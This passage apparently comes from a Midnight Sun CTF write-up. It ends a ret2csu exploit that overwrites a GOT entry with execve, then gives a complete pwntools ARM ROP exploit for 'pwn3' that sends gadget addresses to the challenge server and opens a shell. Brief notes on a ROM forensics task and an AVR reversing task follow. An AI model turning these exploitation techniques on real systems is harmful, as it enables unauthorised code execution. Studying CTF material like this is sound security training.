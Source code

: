 ```python

r.recvuntil('buffer: ')
csu(0, 1, p.got['gets'], bss_base + 8, 0, 0, main_addr)
r.send(p64(libc_addr+libc.symbols['execve'])[:7]+b'\n') # gets will fill the last \0

r.recvuntil('buffer: ')
csu(0, 1, bss_base + 8, bss_base, 0, 0, main_addr)

r.interactive()
```

## Pwny racing - pwn3

ARM rop. I used ROPgadget to find gadgets. Note that libc is in thumb mode, so we need to add 1 to its address to switch to thumb mode.

```python
from pwn import *

r=remote('pwn3-01.play.midnightsunctf.se',10003)

exp=b'0'*4*35
exp+=p32(0x1fb5c)
exp+=p32(0x49018)
exp+=p32(0)
exp+=p32(0x14b5c+1) # switch to thumb

r.send(exp+b'\n')

r.interactive()
```

# forensics

## masterpiece

Get snes9x, find `Mario Paint (Japan, USA).sfc` from some websites.

I expected it to run, however, it stuck. I took a normal snapshot, and replace the header of given file. Then it successfully ran, and flag was shown.

# rev

## avr-rev

Main function is at sub_319. It reads a string, and decode it as some JSON-like data. Decode function is at sub_137. Then the decoded data is printed, along with a mystery number. This number seems calculated in sub_2D5.
